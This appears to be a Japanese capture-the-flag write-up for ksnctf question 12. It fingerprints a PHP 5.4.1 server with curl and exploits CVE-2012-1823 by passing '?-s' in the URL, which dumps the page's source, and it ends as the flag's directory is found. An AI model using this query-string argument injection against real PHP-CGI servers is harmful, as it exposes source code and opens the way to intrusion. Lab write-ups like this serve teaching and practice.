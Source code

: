 ## 問題

与えらえたURLにアクセスすると、時刻のようなものが表示される。

![Image 1](ksnctf_q12_1.jpg)

## 解法

リロードすると、値が変わる。

![Image 2](ksnctf_q12_2.jpg)

`2012:1823`で検索すると、`CVE-2012-1823`というPHPの脆弱性がヒットする。

`curl`でレスポンスヘッダーを見ると、確かにPHPが使われているようだ。

```bash
$ curl https://ctfq.u1tramarine.blue/q12/ -i
HTTP/2 200 
server: nginx
date: Tue, 19 Sep 2023 12:16:42 GMT
content-type: text/html
x-powered-by: PHP/5.4.1
```

PHPのコマンドラインオプションは、[PHP: オプション - Manual](https://www.php.net/manual/ja/features.commandline.options.php)から、
調べることが、できる。

URLに`?-s`オプションをつけて、`https://ctfq.u1tramarine.blue/q12/?-s`にアクセスしてみると、
ソースコードが開示された。

```php
<?php

    //  Flag is in this directory.

    date_default_timezone_set('UTC');
    
    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p><?php echo $t; ?></p>
  </body>
</html>
```

どうやら、このソースコードがあるディレクトリにFLAGがある様子。